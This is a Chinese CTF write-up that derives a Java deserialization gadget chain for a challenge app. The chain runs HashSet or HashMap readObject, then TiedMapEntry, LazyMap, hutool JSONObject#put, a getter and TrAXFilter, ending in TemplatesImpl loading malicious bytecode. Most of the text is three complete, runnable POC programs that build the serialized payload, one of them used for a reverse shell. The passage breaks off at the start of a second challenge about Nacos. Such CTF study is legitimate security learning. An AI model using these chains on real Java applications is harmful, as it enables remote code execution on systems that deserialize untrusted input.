

先看反序列化操作的代码，从URL参数中获取bugstr的值并进行base64解码+反序列化，那找找链子吧，根据题目提示我们看一下getAnyexcept

### com.app.Myexpect#getAnyexcept()

```java
public Object getAnyexcept() throws Exception {
    Constructor con = this.targetclass.getConstructor(this.typeparam);
    return con.newInstance(this.typearg);
}
```

从getAnyexcept中看出这里是一个获取构造器并newInstance()实例化一个对象

这里不禁让我想到了InstantiateTransformer#transform()这个方法



简直不要太像

那我们可以试着用CC3链的TrAXFilter#TrAXFilter方法去**实现Templates动态加载恶意字节码。**



那么我们得往前推一下如何触发getAnyexcept，那就是cn.hutool.json.JSONObject#put()触发getter方法

### cn.hutool.json.JSONObject#put()

```java
cn.hutool.json.JSONObject#put()
	@Override
	@Deprecated
	public JSONObject put(String key, Object value) throws JSONException {
		return set(key, value);
	}

```

为什么呢？跟进put函数之后的调用栈看一下



`InternalJSONUtil.testValidity(value)`通常用来验证 value 是否是可序列化为 JSON 的类型，而wrap函数里面就是会触发getter方法的核心逻辑，跟进看一下



当 `object` 不是基本类型、不是集合、不是 Map、不是 JDK 内部类时，它被当作普通的 **Java Bean**，而`new JSONObject(object, jsonConfig)` 会调用构造函数，内部使用反射读取 bean 的所有 getter 属性

我们这里可以写个demo

```java
package com.app;

import cn.hutool.json.JSONObject;
import cn.hutool.json.JSONConfig;

public class Test {
    public static class User {
        private String name = "Alice";

        public String getName() {
            System.out.println("getter 被调用");
            return name;
        }
    }

    public static void main(String[] args) {
        // 创建一个 JSONConfig
        JSONConfig config = JSONConfig.create();

        // 创建 Hutool 的 JSONObject
        JSONObject json = new JSONObject(config);

        User user = new User();
        json.put("user", user);
    }
}
//getter 被调用
```

所以此时链子理清楚了

```java
cn.hutool.json.JSONObject#put()
    ->com.app.Myexpect#getAnyexcept()
    	->TrAXFilter#TrAXFilter()
    		->TemplatesImpl动态加载恶意字节码
```

然后需要看看如何触发put方法

## 回顾CC链的触发点

以经典的从HashSet触发这条链为例

java.util.HashSet#readObject

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in any hidden serialization magic
        s.defaultReadObject();

        // Read capacity and verify non-negative.
        int capacity = s.readInt();
        if (capacity < 0) {
            throw new InvalidObjectException("Illegal capacity: " +
                                             capacity);
        }

        // Read load factor and verify positive and non NaN.
        float loadFactor = s.readFloat();
        if (loadFactor <= 0 || Float.isNaN(loadFactor)) {
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        }

        // Read size and verify non-negative.
        int size = s.readInt();
        if (size < 0) {
            throw new InvalidObjectException("Illegal size: " +
                                             size);
        }
        // Set the capacity according to the size and load factor ensuring that
        // the HashMap is at least 25% full but clamping to maximum capacity.
        capacity = (int) Math.min(size * Math.min(1 / loadFactor, 4.0f),
                HashMap.MAXIMUM_CAPACITY);

        // Constructing the backing map will lazily create an array when the first element is
        // added, so check it before construction. Call HashMap.tableSizeFor to compute the
        // actual allocation size. Check Map.Entry[].class since it's the nearest public type to
        // what is actually created.

        SharedSecrets.getJavaOISAccess()
                     .checkArray(s, Map.Entry[].class, HashMap.tableSizeFor(capacity));

        // Create backing HashMap
        map = (((HashSet<?>)this) instanceof LinkedHashSet ?
               new LinkedHashMap<E,Object>(capacity, loadFactor) :
               new HashMap<E,Object>(capacity, loadFactor));

        // Read in all elements in the proper order.
        for (int i=0; i<size; i++) {
            @SuppressWarnings("unchecked")
                E e = (E) s.readObject();
            map.put(e, PRESENT);	//Gadget1: e=Object of TiedMapEntry
        }
    }
```

java.util.HashMap#hash

```java
    public V put(K key, V value) { //Gadget2: e=Object of TiedMapEntry
        return putVal(hash(key), key, value, false, true);
    }

   static final int hash(Object key) { //Gadget3: e=Object of TiedMapEntry
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }

```

这里会调用TiedMapEntry的hashCode方法

org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode

```java
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;	//object of LazyMap
        this.key = key;//"aaa"
    }

    

public int hashCode() {
        Object value = getValue();	//Gadget4
        return (getKey() == null ? 0 : getKey().hashCode()) ^
               (value == null ? 0 : value.hashCode()); 
    }

public Object getValue() {
        return map.get(key);	//Gadget5
    }
```

来到LazyMap

```java
public class LazyMap extends AbstractMapDecorator implements Map, Serializable {
    private static final long serialVersionUID = 7990956402564206740L;
    protected final Transformer factory;

    public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }

    public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }

    protected LazyMap(Map map, Factory factory) {
        super(map);
        if (factory == null) {
            throw new IllegalArgumentException("Factory must not be null");
        } else {
            this.factory = FactoryTransformer.getInstance(factory);
        }
    }

    ...
    // lazyMap=LazyMap.decorate(map,testTransformer);
    public Object get(Object key) { // Gadget6 key="aaa" this.map=object of HashMap
        if (!this.map.containsKey(key)) { // 走这里
            Object value = this.factory.transform(key); //Gadget7
            this.map.put(key, value);  // Gadget8
            return value;
        } else {
            return this.map.get(key);
        }
    }
}
```

到这里我们需要改一下，之前的CC链是走的transform，但是我们这里的话需要走的是`this.map.put(key, value);`，如果我们让map是JSONObject，就可以走到JSONObject的put中

这里的key不需要关注，只需要看value就行，让value是一个Transformer的子类,如`ConstantTransformer`

```java
public class ConstantTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = 6374440726369055124L;
    public static final Transformer NULL_INSTANCE = new ConstantTransformer((Object)null);
    private final Object iConstant;

    public static Transformer getInstance(Object constantToReturn) {
        return (Transformer)(constantToReturn == null ? NULL_INSTANCE : new ConstantTransformer(constantToReturn));
    }

    public ConstantTransformer(Object constantToReturn) {
        this.iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return this.iConstant;
    }

    public Object getConstant() {
        return this.iConstant;
    }
}
```

所以只要iConstant是个Object，我们就能调用他的getter方法从而返回一个恶意类

## 最终Gadget1

```java
java.util.HashSet#readObject()
    ->HashMap#put()
    ->java.util.HashMap#hash()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
    		->org.apache.commons.collections.map.LazyMap#get()
    ->cn.hutool.json.JSONObject#put()
    	->com.app.Myexpect#getAnyexcept()
    		->TrAXFilter#TrAXFilter()
    			->TemplatesImpl动态加载恶意字节码
```

## 最终POC1

```java
package com.app;

import cn.hutool.json.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class POC {
    /*
    java.util.HashSet#readObject()
        ->HashMap#put()
        ->java.util.HashMap#hash()
            ->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
            ->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
                ->org.apache.commons.collections.map.LazyMap#get()
        ->cn.hutool.json.JSONObject#put()
            ->com.app.Myexpect#getAnyexcept()
                ->TrAXFilter#TrAXFilter()
                    ->TemplatesImpl动态加载恶意字节码
    */

    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Shell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

//        new TrAXFilter(templates);
        //配置Myexpect中的属性
        Myexpect exp = new Myexpect();
        exp.setTypeparam(new Class[]{javax.xml.transform.Templates.class});
        exp.setTargetclass(com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class);
        exp.setTypearg(new Object[]{templates});

        //触发TrAXFilter#TrAXFilter()
        JSONObject jo = new JSONObject();
        jo.put("111", "222");

        ConstantTransformer constantTransformer = new ConstantTransformer(1);

        Map lazyMap= LazyMap.decorate(jo,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");

        //HashSet配置Map和e
        HashSet set = getHashSet(tiedMapEntry);
        lazyMap.remove("aaa");

        //反射修改factory值
        setFieldValue(constantTransformer,"iConstant", exp);
        setFieldValue(lazyMap,"factory",constantTransformer);
        
        serialize(set);
        unserialize("POC.txt");
    }
    public static HashSet getHashSet(Object obj) throws Exception {
        HashSet set = new HashSet();
        set.add("aaa");//设置一个HashMap，key为aaa

        //设置map为HashMap
        Field map = set.getClass().getDeclaredField("map");
        map.setAccessible(true);
        HashMap map1 = (HashMap) map.get(set);

        //获取HashMap的键值对
        Field table = map1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(map1);
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        //获取其中的key并设置为obj
        setFieldValue(node, "key", obj);
        return set;
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
//    //将序列化字符串转为base64
//    public static void serialize(Object object) throws Exception{
//        ByteArrayOutputStream data = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(data);
//        oos.writeObject(object);
//        oos.close();
//        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
//    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("POC.txt"));
        oos.writeObject(object);
        oos.close();
    }
    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



那就直接反弹shell吧

```java
package com.app;

import cn.hutool.json.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class POC {
    /*
    java.util.HashSet#readObject()
        ->HashMap#put()
        ->java.util.HashMap#hash()
            ->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
            ->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
                ->org.apache.commons.collections.map.LazyMap#get()
        ->cn.hutool.json.JSONObject#put()
            ->com.app.Myexpect#getAnyexcept()
                ->TrAXFilter#TrAXFilter()
                    ->TemplatesImpl动态加载恶意字节码
    */

    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Shell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

//        new TrAXFilter(templates);
        //配置Myexpect中的属性
        Myexpect exp = new Myexpect();
        exp.setTypeparam(new Class[]{javax.xml.transform.Templates.class});
        exp.setTargetclass(com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class);
        exp.setTypearg(new Object[]{templates});

        //触发TrAXFilter#TrAXFilter()
        JSONObject jo = new JSONObject();
        jo.put("111", "222");

        ConstantTransformer constantTransformer = new ConstantTransformer(1);

        Map lazyMap= LazyMap.decorate(jo,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");

        //HashSet配置Map和e
        HashSet set = getHashSet(tiedMapEntry);
        lazyMap.remove("aaa");

        //反射修改factory值
        setFieldValue(constantTransformer,"iConstant", exp);
        setFieldValue(lazyMap,"factory",constantTransformer);

        serialize(set);
    }
    public static HashSet getHashSet(Object obj) throws Exception {
        HashSet set = new HashSet();
        set.add("aaa");//设置一个HashMap，key为aaa

        //设置map为HashMap
        Field map = set.getClass().getDeclaredField("map");
        map.setAccessible(true);
        HashMap map1 = (HashMap) map.get(set);

        //获取HashMap的键值对
        Field table = map1.getClass().getDeclaredField("table");
        table.setAccessible(true);
        Object[] array = (Object[]) table.get(map1);
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        //获取其中的key并设置为obj
        setFieldValue(node, "key", obj);
        return set;
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //将序列化字符串转为base64
    public static void serialize(Object object) throws Exception{
        ByteArrayOutputStream data = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(data);
        oos.writeObject(object);
        oos.close();
        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
    }
}
```



或者还有更简单的，就是通过HashMap的readObject去触发



## 最终Gadget2

```java
java.util.HashMap#readObject()
    ->java.util.HashMap#putVal()
    ->java.util.HashMap#hash()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
    		->org.apache.commons.collections.map.LazyMap#get()
    ->cn.hutool.json.JSONObject#put()
    	->com.app.Myexpect#getAnyexcept()
    		->TrAXFilter#TrAXFilter()
    			->TemplatesImpl动态加载恶意字节码
```

## 最终POC2

```java
package com.app;

import cn.hutool.json.JSONObject;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class POC {
    /*
java.util.HashMap#readObject()
    ->java.util.HashMap#putVal()
    ->java.util.HashMap#hash()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#hashCode()
    	->org.apache.commons.collections.keyvalue.TiedMapEntry#getValue()
    		->org.apache.commons.collections.map.LazyMap#get()
    ->cn.hutool.json.JSONObject#put()
    	->com.app.Myexpect#getAnyexcept()
    		->TrAXFilter#TrAXFilter()
    			->TemplatesImpl动态加载恶意字节码
    */

    public static void main(String[] args) throws Exception {
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\23232\\Desktop\\附件\\jar\\out\\production\\jar\\Shell.class"));
        TemplatesImpl templates = (TemplatesImpl) getTemplates(bytes);

//        new TrAXFilter(templates);
        //配置Myexpect中的属性
        Myexpect exp = new Myexpect();
        exp.setTypeparam(new Class[]{javax.xml.transform.Templates.class});
        exp.setTargetclass(com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class);
        exp.setTypearg(new Object[]{templates});

        //触发TrAXFilter#TrAXFilter()
        JSONObject jo = new JSONObject();
        jo.put("111", "222");

        ConstantTransformer constantTransformer = new ConstantTransformer(1);

        Map lazyMap= LazyMap.decorate(jo,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");

        //在put中修改factory，导致不会触发hash，并移除key
        HashMap<Object,Object> hashmap = new HashMap<>();
        hashmap.put(tiedMapEntry, "3");
        lazyMap.remove("aaa");

        //反射修改factory值
        setFieldValue(constantTransformer,"iConstant", exp);
        setFieldValue(lazyMap,"factory",constantTransformer);

        serialize(hashmap);
        unserialize("POC.txt");
    }
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        setFieldValue(templates, "_bytecodes", new byte[][]{bytes});
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws NoSuchFieldException, IllegalAccessException{
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //    //将序列化字符串转为base64
//    public static void serialize(Object object) throws Exception{
//        ByteArrayOutputStream data = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(data);
//        oos.writeObject(object);
//        oos.close();
//        System.out.println(Base64.getEncoder().encodeToString(data.toByteArray()));
//    }
    //定义序列化操作
    public static void serialize(Object object) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("POC.txt"));
        oos.writeObject(object);
        oos.close();
    }
    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```

# BackendService

把jar包处理一下

```java
package com.ctfshow;

import org.springframework.cloud.alibaba.nacos.NacosDiscoveryProperties;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
/* loaded from: ctfshow.jar:BOOT-INF/classes/com/ctfshow/NacosDiscoveryPropertiesConfig.class */
public class NacosDiscoveryPropertiesConfig {
    @Bean
    public NacosDiscoveryProperties nacosDiscoveryProperties() {
        return new NacosDiscoveryProperties();
    }
}
```

这里是一个配置类，用于在项目中创建并注册一个 `NacosDiscoveryProperties` Bean。

关于Nacos

```html
